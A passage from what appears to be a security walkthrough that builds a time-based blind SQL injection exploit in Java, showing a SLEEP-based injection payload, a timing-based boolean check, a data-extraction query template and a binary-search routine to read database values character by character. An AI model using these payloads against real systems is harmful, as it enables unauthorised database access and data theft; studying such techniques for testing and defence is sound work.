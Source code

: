 ```java
System.out.println(PayloadRequest.sendCommand("'||sleep(10)#", "", ""));
// After 10 seconds ...
// {"success": false, "error": "Invalid username or password"}
```

### Time Based SQL Injection

What? Did we get it? 10 seconds to get a reponse from the payload above! This is definitely my lucky day ... What I could do now? Maybe a tamper for SQLMap [9]? No, no! This is not so 31337! Let's create our own exploit for blind SQL injection... in Java! First of all, we need to somehow compare two chars and based on response time determine a boolean value: True or False. We can achieve this as follows:

```java
    public static boolean blindBoolean(String payload) throws Exception {
        long startTime = System.nanoTime();
	
	PayloadRequest.sendCommand(payload, "", "");
		
	long endTime = System.nanoTime();
	long timeElapsed = endTime - startTime;		
	return (timeElapsed / 1000000) > PayloadRequest.TIME_TO_WAIT * 1000;	
    }
```

To measure response time we get the time before and after call `sendCommand` then we subtract and compare `TIME_TO_WAIT` with the elapsed time. If elapsed time is greater than `TIME_TO_WAIT` we have a True boolean value otherwise a False value.

Now we need an abstract query for general purpose that allows us to extract data from the database:

`'||(IF((SELECT ascii(substr(column,{1},1)) from table limit {2},1){3}{4},SLEEP({5}),1))#`.

with:
```
{1} -> %d -> string char position
{2} -> row offset. Limited to 1 result per query
{3} -> %c -> comparison operator ( =, >, <)
{4} -> %d -> ascii code value
{5} -> %d -> time to sleep
```

Also to improve the performance we could use a binary search algorithm [5] for our time based boolean check:

```java
	public static String blindString(String injection, int len) throws Exception {	
	    StringBuilder value = new StringBuilder("");
	    for(int c = 1; c <= len; c++) {
	        int low = 10;
		int high = 126;
		int ort = 0;
		while(low<high) {
		    if( low-high == 1 ) {
		        ort = low + 1;
		    } else if ( low-high == -1 ) {
		        ort = low;
		    } else {
		        ort = (low+high)/2;
		    }
				
		    String payload = String.format(injection, c, '=', ort, PayloadRequest.TIME_TO_WAIT );
		    if( PayloadRequest.blindBoolean(payload) ) {
		        value.append( Character.toString( (char) ort));
		        break;
	            }
		    payload = String.format(injection, c, '>', ort, PayloadRequest.TIME_TO_WAIT );
```